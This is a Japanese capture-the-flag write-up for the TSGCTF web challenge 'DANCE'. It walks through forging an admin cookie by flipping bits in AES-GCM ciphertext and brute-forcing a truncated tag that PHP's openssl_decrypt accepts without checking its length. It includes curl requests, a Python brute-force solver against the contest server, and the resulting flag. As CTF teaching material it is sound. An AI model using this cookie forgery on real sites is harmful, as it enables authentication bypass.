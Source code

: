 # #DANCE:web:221pts
管理者パスワードを忘れてしまいました。パスワードを見る方法は管理者としてログインするしかないのに! デッドロックだ!  

[http://34.84.176.251:8080/](http://34.84.176.251:8080/)  

[DANCE.tar.gz](DANCE.tar.gz)  

# Solution
URLとソースが与えられる。  
guestとしてアクセスできるようだ。  
```bash
$ curl http://34.84.176.251:8080/

<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        <form action="index.php" method="POST">
            <input type="submit" name="auth" value="guest" />
        </form>
        </body>
</html>
```
index.phpを見ると、主要部分は以下のようであった。  
```php
<?php
$flag = "TSGCTF{__REDACTED__}";
if (isset($_POST["auth"])) {
    if ($_POST["auth"] == "guest") {
        $auth = "guest";
        $cipher = "aes-128-gcm";
        $key = base64_decode("__REDACTED__");
        $ivlen = openssl_cipher_iv_length($cipher);
        $iv = openssl_random_pseudo_bytes($ivlen);
        $encrypted_auth = openssl_encrypt($auth, $cipher, $key, $options = 0, $iv, $tag);
        setcookie("auth", $encrypted_auth, time() + 3600 * 24);
        setcookie("iv", base64_encode($iv), time() + 3600 * 24);
        setcookie("tag", base64_encode($tag), time() + 3600 * 24);
        header("Location: mypage.php");
    } else if (($_POST["auth"] == "admin") and isset($_POST["password"])) {
        if ($_POST["password"] == $flag) {
            $auth = "admin";
            $cipher = "aes-128-gcm";
            $key = base64_decode("__REDACTED__");
            $ivlen = openssl_cipher_iv_length($cipher);
            $iv = openssl_random_pseudo_bytes($ivlen);
            $encrypted_auth = openssl_encrypt($auth, $cipher, $key, $options = 0, $iv, $tag);
            setcookie("auth", base64_encode($encrypted_auth), time() + 3600 * 24);
            setcookie("iv", base64_encode($iv), time() + 3600 * 24);
            setcookie("tag", base64_encode($tag), time() + 3600 * 24);
            header("Location: mypage.php");
        }
    } else {
        header("Location: index.php");
    }
}
?>
~~~
```
`password`がわからないため、adminのフローには到達できない。  
guestのフローでは文字列`guest`を非公開のkeyでaes-128-gcmで暗号化している。  
その後`setcookie`で暗号文、iv、tagが渡される。  
次に、mypage.phpを見ると主要部分は以下のようであった。  
```php
<?php
if (isset($_COOKIE["auth"])) {
    $encrypted_auth = $_COOKIE["auth"];
    $iv = base64_decode($_COOKIE["iv"]);
    $tag = base64_decode($_COOKIE["tag"]);
    $cipher = "aes-128-gcm";
    $key = base64_decode("__REDACTED__");
    $auth = openssl_decrypt($encrypted_auth, $cipher, $key, $options = 0, $iv, $tag);
    $flag = "TSGCTF{__REDACTED__}";
    if ($auth == "admin") {
        $msg = "Hello admin! Password is here.\n" . $flag . "\n";
    } else if ($auth == "guest") {
        $msg = "Hello guest! Only admin can get flag.";
    } else if ($auth == "") {
        $msg = "I know you rewrote cookies!";
    } else {
        $msg = "Hello stranger! Only admin can get flag.";
    }
} else {
    header("Location: index.php");
}
?>
~~~
```
`openssl_decrypt`でindex.phpの逆の処理を行っている。  
ここで、aes-128-gcmが内部状態とのxorで構成されているため、暗号文のビットを反転すると平文のビットも反転することを思い出す。  
つまり、`暗号文 ^ guest ^ admin`を行えば、文字列`admin`を暗号化したものと一致する。  
しかし、暗号文の改竄は可能だが、tagでの検証があるため難しい。  
ユーザ入力が関係するのはこの箇所だけなので、詳細に調査する。  
[マニュアル](https://www.php.net/manual/ja/function.openssl-decrypt.php)を眺めていると以下の記述が気になる。  
```
警告
tag の長さをこの関数はチェックしません。 この値の長さは openssl_encrypt() を呼び出した時に取得できるものと一致させなければならず、それは呼び出し側の責任です。 一致しない場合でも、与えられた値が適切な tag の先頭部分と一致した場合に復号が成功するかもしれません。
```
実際に試す。  
```bash
$ curl -X POST http://34.84.176.251:8080/ -d "auth=guest" --dump-header -
~~~
Set-Cookie: auth=Kf4K844%3D; expires=Mon, 06 Nov 2023 12:02:07 GMT; Max-Age=86400
Set-Cookie: iv=AOF7azAiRHDSmEhE; expires=Mon, 06 Nov 2023 12:02:07 GMT; Max-Age=86400
Set-Cookie: tag=H50XjPwelgPE1T5q8NONHQ%3D%3D; expires=Mon, 06 Nov 2023 12:02:07 GMT; Max-Age=86400
~~~
$ curl http://34.84.176.251:8080/mypage.php -H "Cookie: auth=Kf4K844%3D;iv=AOF7azAiRHDSmEhE;tag=H50XjPwelgPE1T5q8NONHQ%3D%3D"
<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        Hello guest! Only admin can get flag.   </body>
</html>
$ curl http://34.84.176.251:8080/mypage.php -H "Cookie: auth=Kf4K844%3D;iv=AOF7azAiRHDSmEhE;tag=H5"
<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        Hello guest! Only admin can get flag.   </body>
</html>
$ curl http://34.84.176.251:8080/mypage.php -H "Cookie: auth=Kf4K844%3D;iv=AOF7azAiRHDSmEhE;tag=AA"
<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        I know you rewrote cookies!     </body>
</html>
```
tagの長さが検証されていないため、先頭が一致すれば復号されてしまっている。  
これは総当たり可能な範囲なので、改竄した暗号文を復号するtagを以下のように見つけてやる。  
```py
import requests

url = "http://34.84.176.251:8080/mypage.php"

for i in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789":
    for j in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789":
        try:
            # L%2B8C6ZQ%3D = base64enc(base64dec("Kf4K844%3D") ^ "guest" ^ "admin")
            res = requests.get(url, cookies={"auth": "L%2B8C6ZQ%3D", "iv": "AOF7azAiRHDSmEhE", "tag": f"{i}{j}"})
        except:
            print("Error")
            continue
        if "I know you rewrote cookies!" not in res.text:
                print(f"Found: {i}{j}")
                print(res.text)
                exit()
```
実行する。  
```bash
$ python solver.py
Found: TQ
<!DOCTYPE html>
<html>
    <head>

    </head>
    <body>
        Hello admin! Password is here.
TSGCTF{Deadlock_has_been_broken_with_Authentication_bypass!_Now,_repair_website_to_reject_rewritten_CookiE.}
        </body>
</html>
```
flagが得られた。  

## TSGCTF{Deadlock_has_been_broken_with_Authentication_bypass!_Now,_repair_website_to_reject_rewritten_CookiE.}